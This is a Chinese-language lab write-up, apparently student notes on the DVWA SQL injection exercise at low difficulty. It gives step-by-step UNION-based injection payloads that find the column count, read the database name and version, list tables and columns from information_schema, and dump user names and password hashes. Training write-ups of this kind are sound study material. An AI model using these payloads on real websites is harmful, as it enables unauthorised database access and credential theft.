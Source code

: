 # SQL Injection



## low



​	输入 1 进行测试，发现可能存在sql注入漏洞。

<img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low1.png" style="zoom: 33%;" />

​	逐一尝试， `1'`  发现是字符注入，并且闭合方式是单引号。

<img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low2.png" style="zoom: 33%;" />

​	使用 `order by` 语句，查看字段数。（使用二分法，的方法去查询），发现只有两个字段。

<img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low3.png" style="zoom: 33%;" />

​	使用联合查询判断回显位， `?id=1' and 1=2 union select 1, 2 -- ` ，发现1，2均为回显位。

> [!WARNING]
>
> 这里 `?id=1' and 1=2 union select 1, 2 -- ` 中要加 `and 1=2` 而不是 `and 1=1` 是因为数据库查询中，有可能返回查询结果中的第一行，这里使前面查询语句为永假式，使其后面联合查询语句得结果显示在第一行

<img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low4.png" style="zoom:33%;" />

​	构造联合查询语句，判断数据库名称，以及坂本信息。得到数据库版本信息，以及数据库名称为 `dvwa` 

`?id=1' and 1=2 union select version(), database() -- ` 

<img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low5.png" style="zoom:33%;" />

​	构造语句，查询数据库中得所有表名。

`?id=1' and 1=2 union select version(), group_concat(table_name) from information_schema.tables where table_schema=database() -- ` 得到数据库中所有得表名。

 <img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low6.png" style="zoom:33%;" />

​	得到表名之后，查询中重要表中得信息，这里查询 `users` 表中得字段。

`?id=1' and 1=2 union select version(), group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' -- ` 得到 `users` 表中得字段名称

> [!WARNING]
>
> table_name='users' 中字段表名一定要加引号



<img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low7.png" style="zoom:33%;" />

​	现在获取 `users` 表中user以及password信息。

`?id=1' and 1=2 union select version(), group_concat(user, password) from  users -- `

得到用户名以及密码。

<img src="S:\github\UniversityLogs\Dvwa\imgs\sql_low8.png" style="zoom: 33%;" />











































